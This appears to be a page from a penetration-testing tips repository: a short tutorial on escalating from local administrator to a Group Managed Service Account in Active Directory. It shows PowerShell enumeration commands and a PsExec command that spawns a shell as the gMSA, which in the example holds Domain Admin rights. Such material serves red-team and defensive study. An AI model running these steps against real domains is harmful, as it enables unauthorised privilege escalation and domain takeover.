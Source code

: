 # Elevate from Local admin to gMSA account
Some of the steps in this tutorial used [ADModule](https://github.com/pwnj0hn/HackingTipsNTricks/blob/main/Active%20Directory%20Recon/ADModule.md)
* Check if any gMSA accounts are present in the domain.
 ```powershell
Get-ADServiceAccount -Filter * -properties dnshostname
```
![](https://raw.githubusercontent.com/pwnj0hn/HackingTipsNTricks/main/img/gmsa_01.png)

* Check if gMSA user have any interesting permissions so it is worth hijacking
 ```powershell
Get-ADPrincipalGroupMembership -Identity "http_svc$"
 ```
 https://raw.githubusercontent.com/pwnj0hn/HackingTipsNTricks/main/img/gmsa_02.png
 
* Compromise the server which gMSA is assigned too.
* Download [SysInternals PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
* Open Administrator PowerShell or cmd prompt
* 
![](https://raw.githubusercontent.com/pwnj0hn/HackingTipsNTricks/main/img/gmsa_03.png)

* Use PsExec to spawn a cmd or PowerShell prompt as the gMSA account. Password can be anything. If not giving password as argument, just hit enter at the password prompt.

```powershell
.\PsExec.exe -i -u velvet\http_svc$ -p foobar cmd.exe
```
![](https://raw.githubusercontent.com/pwnj0hn/HackingTipsNTricks/main/img/gmsa_04.png)



In this case the http_svc$ account have Domain Admin rights, which it really should not have but we see service accounts have way to many priviliges all the time. DA is used in this example as a worst case scenario. It might have other cool priviliges too in other scenarios.

![](https://raw.githubusercontent.com/pwnj0hn/HackingTipsNTricks/main/img/gmsa_05.png)
